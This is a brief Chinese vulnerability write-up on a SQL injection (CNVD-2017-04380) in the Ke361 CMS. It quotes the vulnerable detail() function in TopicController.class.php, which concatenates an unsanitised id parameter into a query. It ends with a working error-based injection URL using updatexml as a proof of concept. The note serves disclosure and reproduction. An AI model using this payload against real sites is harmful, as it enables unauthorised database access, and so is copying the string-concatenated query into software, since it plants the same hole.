



Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380¶
漏洞描述¶
Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞
漏洞影响¶
Ke361
环境搭建¶
漏洞复现¶
存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

public function detail(){
$id = I('id');
$where['tid'] = $id;
$TopicModel = new TopicModel();
$topicInfo = $TopicModel->info($id);
// if(empty($topicInfo)){
// $this->error('您查看的专题不存在哦！');
// }
// 这里注释掉，默认不存在专题
M('Topic')->where('id='.$id)->setInc('hits');
$this->setSiteTitle($topicInfo['title']);
$goods = $this->lists(D('Goods'),$where);
foreach ($goods as $k=>$v){
$goods[$k]['url'] = U('/goods/'.$v['id']);
}
$this->assign('goods',$goods);
$this->assign('topic',$topicInfo);
$this->display();
}
这里接收参数 id，然后执行SQL语句, 通过报错注入可以获取数据库数据
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+

